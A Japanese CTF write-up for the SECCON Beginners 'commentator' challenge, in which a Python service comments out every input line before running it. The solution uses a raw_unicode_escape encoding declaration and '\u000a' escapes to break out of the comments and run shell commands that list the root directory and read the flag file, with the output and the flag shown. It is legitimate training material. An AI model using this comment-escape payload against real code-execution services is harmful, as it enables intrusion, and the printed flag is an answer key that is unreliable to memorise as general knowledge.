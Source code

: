 # commentator

## 問題文
コメントには注意しなきゃ！  
`nc commentator.beginners.seccon.games 4444`  
[commentator.tar.gz](files/commentator.tar.gz) 83d58281d8e0c0376b248e3a6a9487f7a106cec0  

## 難易度
**easy**  

## 作問にあたって
[コメントだけのJavaを実行できる記事](https://qiita.com/cha84rakanal/items/06477529d48c52f26e2d)のPython版です。  
JavaのテクニックはCTFでよく見ますが、Pythonはあまり見ないので出しました。  

## 解法
接続先とソースが配布される。  
接続するとPythonコードの入力を求められ、`__EOF__`で入力を終了すると`thx :)`と表示される。  
```bash
$ nc commentator.beginners.seccon.games 4444
                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \ \
 / __/ _ \| '_ ` _ \| '_ ` _ \ / _ \ '_ \| __/ _` | __/ _ \| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \___\___/|_| |_| |_|_| |_| |_|\___|_| |_|\__\__,_|\__\___/|_|    (_)  | |
                                                                      /_/
---------------------------------------------------------------------------
Enter your Python code (ends with __EOF__)
>>> print(1)
>>> __EOF__
thx :)
```
ソースは以下の通りであった。  
```python
#!/usr/local/bin/python

import os
import uuid

############################## Logo ##############################
print(
    f"""                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \\ \\
 / __/ _ \\| '_ ` _ \\| '_ ` _ \\ / _ \\ '_ \\| __/ _` | __/ _ \\| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \\___\\___/|_| |_| |_|_| |_| |_|\\___|_| |_|\\__\\__,_|\\__\\___/|_|    (_)  | |
                                                                      /_/
{"-" * 75}
Enter your Python code (ends with __EOF__)"""
)
############################## Logo ##############################

python = ""
while True:
    line = input(">>> ").replace("\r", "")
    if "__EOF__" in line:
        python += 'print("thx :)")'
        break
    python += f"# {line}\n"  # comment :)

pyfile = f"/tmp/{uuid.uuid4()}.py"
with open(pyfile, "w") as f:
    f.write(python)

os.system(f"python {pyfile}")
os.remove(pyfile)
```
入力の先頭に`# `を付加したコードを/tmp以下に保存して`python`で実行している。  
配布されたDockerfileからフラグを入手するには`/flag-{md5}.txt`を読めばよいとわかる。  
つまり、コメントアウトされるコードを動かしてRCEしろとのことだ。  
普通に考えると実行されるはずもない。  
`python`での実行のため、先頭行をshebangとして悪用することも難しい。  
ここで、Pythonは先頭行に`# coding: utf_8`のように記述することで、文字コードを指定できたことを思い出す。  
これをUTF-7でのXSSのように、悪用できないだろうか。  
[ドキュメント](https://docs.python.org/3/library/codecs.html)で探すと`raw_unicode_escape`があることがわかる。  
これは`\uXXXX`のように16進数で文字を記述でき、改行は`\u000a`となる。  
これを用いることでソースコード中に改行を挿入でき、コメントを脱出できる。  
以下のように行う。  
```bash
$ nc commentator.beginners.seccon.games 4444
                                          _        _                  __
  ___ ___  _ __ ___  _ __ ___   ___ _ __ | |_ __ _| |_ ___  _ __   _  \ \
 / __/ _ \| '_ ` _ \| '_ ` _ \ / _ \ '_ \| __/ _` | __/ _ \| '__| (_)  | |
| (_| (_) | | | | | | | | | | |  __/ | | | || (_| | || (_) | |     _   | |
 \___\___/|_| |_| |_|_| |_| |_|\___|_| |_|\__\__,_|\__\___/|_|    (_)  | |
                                                                      /_/
---------------------------------------------------------------------------
Enter your Python code (ends with __EOF__)
>>> coding: raw_unicode_escape
>>> \u000aimport os
>>> \u000aos.system("ls /")
>>> \u000aos.system("cat /flag-*.txt")
>>> __EOF__
app
bin
boot
dev
etc
flag-437541b5d9499db505f005890ed38f0e.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
ctf4b{c4r3l355_c0mm3n75_c4n_16n173_0nl1n3_0u7r463}thx :)
```
flagが得られた。  

## ctf4b{c4r3l355_c0mm3n75_c4n_16n173_0nl1n3_0u7r463}